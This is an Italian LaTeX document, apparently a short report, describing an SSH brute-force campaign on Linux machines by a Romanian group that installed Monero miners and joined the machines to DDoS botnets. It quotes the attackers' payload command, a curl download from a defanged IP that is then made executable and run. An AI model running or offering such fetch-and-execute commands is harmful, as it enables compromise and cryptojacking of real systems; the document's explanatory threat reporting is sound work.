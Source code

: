 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Attacco brute force nelle macchine linux}
Un gruppo di hacker nato in Romania ha attaccato le macchine Linux utilizzando
un metodo brute force SSH, chiamato \textit{Diicot brute} per decifrare le
password delle macchine con sistema operativo Linux. I criminali avrebbero
iniettato al interno di queste macchine software per mianare Monero, inoltre
avrebbero collegato queste macchine a ben 2 botnet DDoS \footnote{Distributed
Denial of Service}: la prima è \textit{DemonBot} e la seconda \textit{IRC Perl}.

Fondamentalemente, gli hacker, cercavano credenziali di accesso deboli dei
server SSH. Per trovare questo tipo di credenziali, i criminali, andavano a
scansionare le porte dei server al fine di trovarne una aperta, una volta
individuata vanno a richiedere informazioni dal server che risponde con un
\textit{banner}. Questo banner indica che tipo di servizio offre il server, la
sua versione e nel caso sia un server SSH potrebbe dare ulteriori dettagli sulla
versione del software SSH in esecuzione. Una volta che gli hacker hanno trovato
un accesso al server SSH, utilizzano un software di brute force per identificare
credenziali valide per poi procedere con l'iniezione del payload.

\paragraph{Payload} Gli hacker eseguono nella sessione SSH il seguente codice:

\begin{verbatim}
    curl -O http://45[.]32[.]112[.]68/.sherifu/.93joshua && 
                    chmod 777 .93joshua && ./.93joshua && uname -a
\end{verbatim}

Una volta preso il controllo della macchina, gli infiltrati installavano XMRing
nella macchina.
\end{document}
